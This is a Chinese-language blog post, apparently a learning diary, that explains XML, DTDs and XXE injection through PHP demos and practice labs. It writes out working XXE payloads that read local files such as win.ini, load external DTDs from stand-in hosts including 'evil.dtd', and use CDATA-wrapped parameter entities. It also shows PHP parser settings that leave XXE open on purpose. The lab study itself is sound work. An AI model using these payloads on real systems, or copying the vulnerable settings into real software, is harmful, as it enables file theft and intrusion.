





# xxe的学习


不知道从何说起就这放一张图吧。纪念一下第一次看懂port swigger的鸟语。

  



  

&lt;!--more--&gt;

  

# XML

  

&gt;Extensible Markup Language

  

a markup language and file format

  
  
  

主要目的是序列化，即存储、传输、重构任意数据。

  

一个example：

  

```xml

//XML声明即是位于XML文档开始部分的第一行，规定了xml版本和编码格式

&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;

  

//每个xml文档必有一个根元素，这里指&lt;note&gt;

&lt;note&gt;

  &lt;to&gt;Tove&lt;/to&gt;

  &lt;from&gt;Jani&lt;/from&gt;

  &lt;heading&gt;Reminder&lt;/heading&gt;

  &lt;body&gt;Don&#39;t forget me this weekend!&lt;/body&gt;

&lt;/note&gt;

```

  
  
  

## 特点

  
  

通过 XML 您可以发明自己的标签

上面实例中的标签没有在任何 XML 标准中定义过（比如 `&lt;to&gt;`和 `&lt;from&gt;`）。这些标签是由 XML 文档的创作者发明的。

  

这是因为 XML 语言没有预定义的标签。

  

HTML 中使用的标签都是预定义的。HTML 文档只能使用在 HTML 标准中定义过的标签（如 `&lt;p&gt;`、`&lt;h1&gt;` 等等）。

  

XML 允许创作者定义自己的标签和自己的文档结构。

  

## 与HTML有区别

  

XML 不是 HTML 的替代。

  

XML 和 HTML 为不同的目的而设计：

  

- XML 被设计用来传输和存储数据，其焦点是数据的内容。

  

- HTML 被设计用来显示数据，其焦点是数据的外观。

  

- HTML 旨在显示信息，而 XML 旨在传输信息。

  
  

[更多详情在这里](https://www.runoob.com/xml/xml-usage.html)

  

## DTD

  

&gt;Document Type Definition

  

### DTD引用

  
  

- DTD内部声明

`&lt;!DOCTYPE root_element [declare]&gt;`

  

- DTD外部引用

`&lt;!DOCTYPE root_element  SYSTEM &#34;enternal DTD file path/url&#34;&gt;`

  

- 引用公共DTD

`&lt;!DOCTYPE root_element  PUBLIC &#34;DTD name&#34; &#34;public dtd url&#34;&gt;`

  

### DTD实体声明

  

- 内部实体声明

`&lt;!ENTITY entity_name &#34;entity value&#34;&gt;`

  

- 外部实体声明

`&lt;!ENTITY entity_name SYSTEM &#34;url/uri&#34;&gt;`

  

- 通用实体

`&amp;`引用的实体，在DTD中定义，xml中引用

  

- 参数实体

`%`引用的实体，在DTD中定义，DTD中使用，可以在外部引用

  

# XML注入

  

[一个关于XML注入的简单总结](https://uuzdaisuki.com/2018/07/23/xml%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB%E6%80%BB%E7%BB%93/)

  
  

# XXE(XML External Entity Injection)

  

&gt;XML注入的一种，针对于外部实例

  
  

## demo test

  

```php

&lt;?php

$xml = simplexml_load_string($_POST[&#39;xml&#39;]);

print_r($xml);

?&gt;

  

```

用 POST 进行传参 ：

  

```xml

xml=&lt;note&gt;

&lt;to&gt;Tove&lt;/to&gt;

&lt;from&gt;Jani&lt;/from&gt;

&lt;heading&gt;Reminder&lt;/heading&gt;

&lt;body&gt;Don&#39;t forget me this weekend!&lt;/body&gt;

&lt;/note&gt;

```

  

得到结果：

  



  
  

&lt;hr&gt;

  

进行进一步的测试

  

升级一下：

```php

&lt;?php

  

    libxml_disable_entity_loader (false);//用来禁用或启用 libxml 库中的实体加载器。参数 false 表示启用实体加载器。

    $xmlfile = file_get_contents(&#39;php://input&#39;);//从 PHP 的输入流中读取数据，并将其存储在 $xmlfile 变量中。

    $dom = new DOMDocument();//创建了一个新的 DOMDocument 对象，该对象表示一个 XML 或 HTML 文档。

    $dom-&gt;loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); //使用 $xmlfile 中的 XML 数据加载 DOMDocument 对象，后面两个是解析选项

    $creds = simplexml_import_dom($dom);//将 DOMDocument 对象转换为 SimpleXMLElement 对象，以便更容易地处理 XML 数据

    echo $creds;//将 SimpleXMLElement 对象转换为字符串，并输出

  

?&gt;

```

  

## 直接利用

  
  

以Windows环境为例：

  

post传入

  

```xml

&lt;?xml version=&#34;1.0&#34;?&gt;

&lt;!DOCTYPE a [

  &lt;!ENTITY b SYSTEM &#34;file:///c:/windows/win.ini&#34;&gt;

]&gt;

&lt;c&gt;&amp;b;&lt;/c&gt;

```

  

喜提：

`; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1`

  
  

## 远程调用DTD

  

在直接利用的基础上修改

```xml

&lt;?xml version=&#34;1.0&#34;?&gt;

&lt;!DOCTYPE a [

  &lt;!ENTITY b SYSTEM &#34;http://xxxx/xxx.dtd&#34;&gt;

]&gt;

&lt;c&gt;&amp;b;&lt;/c&gt;

```

  

xxx.dtd中写：

```dtd

&lt;!ENTITY b SYSTEM &#34;file:///c:/windows/win.ini&#34; &gt;

```

  
  

效果same

  

&lt;hr&gt;

  

## xxe-lab test

  

在进行next level前，来做一个简单的靶场xxe lab

  

做的php版本（大差不差）

  

```php

//doLogin.php

&lt;?php

/**

* autor: c0ny1

* date: 2018-2-7

*/

  

$USERNAME = &#39;admin&#39;; //账号

$PASSWORD = &#39;admin&#39;; //密码

$result = null;

  

libxml_disable_entity_loader(false);

$xmlfile = file_get_contents(&#39;php://input&#39;);

  

try{

  //可以参考上面那个升级版demo的解释

  $dom = new DOMDocument();

  $dom-&gt;loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

  $creds = simplexml_import_dom($dom);

  

  $username = $creds-&gt;username;

  $password = $creds-&gt;password;

  

  //进行检查

  if($username == $USERNAME &amp;&amp; $password == $PASSWORD){

    $result = sprintf(&#34;&lt;result&gt;&lt;code&gt;%d&lt;/code&gt;&lt;msg&gt;%s&lt;/msg&gt;&lt;/result&gt;&#34;,1,$username);

  }else{

    $result = sprintf(&#34;&lt;result&gt;&lt;code&gt;%d&lt;/code&gt;&lt;msg&gt;%s&lt;/msg&gt;&lt;/result&gt;&#34;,0,$username);

  }

}catch(Exception $e){

  $result = sprintf(&#34;&lt;result&gt;&lt;code&gt;%d&lt;/code&gt;&lt;msg&gt;%s&lt;/msg&gt;&lt;/result&gt;&#34;,3,$e-&gt;getMessage());

}

  

header(&#39;Content-Type: text/html; charset=utf-8&#39;);

echo $result;

?&gt;

```

  

主要看`echo`在echo个什么，很明显的是`$result`，所以回去看这个参数有些什么。

  

`$username` &amp; `msg`

  

通过抓包看到的是



  

所以实体要在`$username`里面进行引用

  

then it goes like:

  



  

&lt;hr&gt;

  

在port swigger lab的XXE 1时，非常简单一个道理：

  

就如图所示：


  

&lt;hr&gt;

&lt;hr&gt;

  

# Next Level

  

&gt;当文件内容比较非常规的时候，读取解析会出现错误

  

比如这个：

  

```txt

KITS.AI

# etc :/eta heard him say

....we can go&amp;wherever%you###like

```

  

再次执行之前成功的payload就会得到很多报错：

  



  

&lt;hr&gt;

  

解决这个问题的一个有效方法就是使用`&lt;![CDATA[]]&gt;`

  

&gt;在 XML 中，&lt;![CDATA[]]&gt; 的作用是保护一些特殊字符，例如小于号 &lt; 等，使其不被解析。这是因为在 XML 文档的解析过程中，字符 &lt; 和 &amp; 会被解析为新元素或字符实体的开始。因此，如果希望一些字符被视为纯文本而不是 XML 语法，可以将它们放在 &lt;![CDATA[]]&gt; 中。

  

乍一看心情是：what are you fucking talking about？

  

举个例子

  

用初始xml进行改造：

  

```xml

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;

&lt;!DOCTYPE creds [

   &lt;!ENTITY goodies SYSTEM &#34;file:///c:/windows/win.ini&#34;&gt;

]&gt;

&lt;creds&gt;&amp;goodies;&lt;/creds&gt;

```

  

&lt;hr&gt;

  

在引用上加`&lt;![CDATA[]]&gt;`

  

```xml

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;

&lt;!DOCTYPE creds [

   &lt;!ENTITY goodies SYSTEM &#34;file:///C:/Users/haerinwon/Desktop/ai.txt&#34;&gt;

]&gt;

&lt;creds&gt;&lt;![CDATA[&amp;goodies;]]&gt;&lt;/creds&gt;

```

得到结果是`&amp;goodies;`

  

&lt;hr&gt;

  
  

```xml

//payload

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;

&lt;!DOCTYPE roottag [

&lt;!ENTITY % start &#34;&lt;![CDATA[&#34;&gt;  

&lt;!ENTITY % goodies SYSTEM &#34;file:///d:/test.txt&#34;&gt;  

&lt;!ENTITY % end &#34;]]&gt;&#34;&gt;  

&lt;!ENTITY % dtd SYSTEM &#34;http://ip/evil.dtd&#34;&gt;

%dtd; ]&gt;

  

&lt;roottag&gt;&amp;all;&lt;/roottag&gt;

  

//evil.dtd

&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34;?&gt;

&lt;!ENTITY all &#34;%start;%goodies;%end;&#34;&gt;

```

  

tbc..


---

> Author:   
> URL: https://66lueflam144.github.io/posts/257b247/  

